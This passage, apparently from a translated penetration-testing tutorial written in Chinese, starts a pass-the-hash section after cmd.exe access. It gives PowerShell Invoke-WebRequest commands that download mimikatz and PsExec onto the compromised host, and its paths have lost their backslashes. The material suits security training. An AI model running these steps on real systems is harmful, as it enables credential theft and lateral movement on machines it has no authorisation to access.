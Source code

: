 ![](img/84ff8e18-1405-4842-9902-72e2ff0ceef3.png)

该报告的最后一部分解码显示了执行`cmd.exe`的启动操作。

# 传递哈希

此时你已经访问了`cmd.exe`，从这里你可以使用命令`start powershell -NoExit`启动 PowerShell。你希望启动 PowerShell，因为你需要从 GitHub 下载`mimikatz`。

为此，运行以下命令：

```
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20170813/mimikatz_trunk.zip" -OutFile "C:tempmimikatz_trunk.zip"  
```

此外，确保从 Sysinternals 下载 PsExec 工具，因为稍后你将需要它。为此，可以在同一个 PowerShell 控制台中使用以下命令：

```
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:tempPSTools.zip"  
```

